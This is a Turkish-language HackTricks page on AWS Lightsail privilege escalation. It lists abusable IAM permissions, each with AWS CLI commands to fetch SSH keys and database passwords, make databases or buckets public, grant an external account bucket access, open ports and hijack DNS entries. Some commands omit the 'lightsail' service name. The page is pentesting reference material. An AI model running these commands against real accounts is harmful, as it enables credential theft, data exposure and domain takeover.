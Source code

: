 # AWS - Lightsail Privilege Escalation

{% hint style="success" %}
AWS Hacking'ı öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Lightsail

Daha fazla Lightsail bilgisi için şuraya bakın:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail'ın **kullanıcıya ait IAM rollerini değil** AWS tarafından yönetilen bir hesaba ait IAM rollerini kullandığını unutmamak önemlidir, bu nedenle bu hizmeti kullanarak ayrıcalık yükseltme yapamazsınız. Bununla birlikte, bu hizmette **kod, API anahtarları ve veritabanı bilgileri gibi hassas veriler** bulunabilir.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Bu izin, örneklerinize erişmek için SSH anahtarlarını almanıza izin verecektir:
```
aws lightsail download-default-key-pair
```
**Potansiyel Etki:** Örneklerin içinde hassas bilgiler bulunabilir.

### `lightsail:GetInstanceAccessDetails`

Bu izin size örneklerin erişimini sağlamak için SSH anahtarları oluşturmanıza izin verecektir:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potansiyel Etki:** Örneklerin içinde hassas bilgiler bulunabilir.

### `lightsail:CreateBucketAccessKey`

Bu izin size bir anahtar almanıza izin verecektir:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potansiyel Etki:** Bucket içinde hassas bilgiler bulunması.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Bu izin size veritabanına erişmek için kimlik bilgilerini almanıza olanak tanır:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potansiyel Etki:** Veritabanı içinde hassas bilgiler bulma.

### `lightsail:UpdateRelationalDatabase`

Bu izin size veritabanına erişmek için şifreyi değiştirme olanağı sağlar:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Veritabanı genel değilse, bu izinlerle genel hale getirebilirsiniz

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potansiyel Etki:** Veritabanı içinde hassas bilgiler bulma.

### `lightsail:OpenInstancePublicPorts`

Bu izin, bağlantı noktalarını İnternete açmayı sağlar.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potansiyel Etki:** Hassas bağlantı noktalarına erişim.

### `lightsail:PutInstancePublicPorts`

Bu izin, bağlantı noktalarını İnternete açmayı sağlar. Not: Çağrı, belirtilmeyen herhangi bir bağlantı noktasını kapatacaktır.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potansiyel Etki:** Hassas bağlantı noktalarına erişim.

### `lightsail:SetResourceAccessForBucket`

Bu izinler, ek kimlik bilgiler olmadan bir örneğe bir kova erişim izni verilmesine olanak tanır

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potansiyel Etki:** Hassas bilgilere erişim olasılığı.

### `lightsail:UpdateBucket`

Bu izinle bir saldırgan, kendi AWS hesabına okuma erişimi sağlayabilir veya hatta kovaları herkese açık hale getirebilir:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potansiyel Etki:** Hassas bilgilere sahip kovalara potansiyel yeni erişim.

### `lightsail:UpdateContainerService`

Bu izinlerle bir saldırgan, konteyner hizmetinden özel ECR'lere erişim sağlayabilir.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potansiyel Etki:** Özel ECR'dan hassas bilgiler alınabilir

### `lightsail:CreateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), SPF kaydı oluşturabilir ve böylece alan adından sahte e-postalar gönderebilir veya hatta ana alan adı için kendi IP adresini ayarlayabilir.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potansiyel Etki:** Bir alanın ele geçirilmesi

### `lightsail:UpdateDomainEntry`

Bu izne sahip bir saldırgan, alt alan adı oluşturabilir ve kendi IP adresine yönlendirebilir (alt alan adı ele geçirme), SPF kaydı oluşturabilir ve böylece alan adından sahte e-postalar gönderebilir veya hatta ana alan adını kendi IP adresine ayarlayabilir.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potansiyel Etki:** Bir alan adını ele geçirme

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
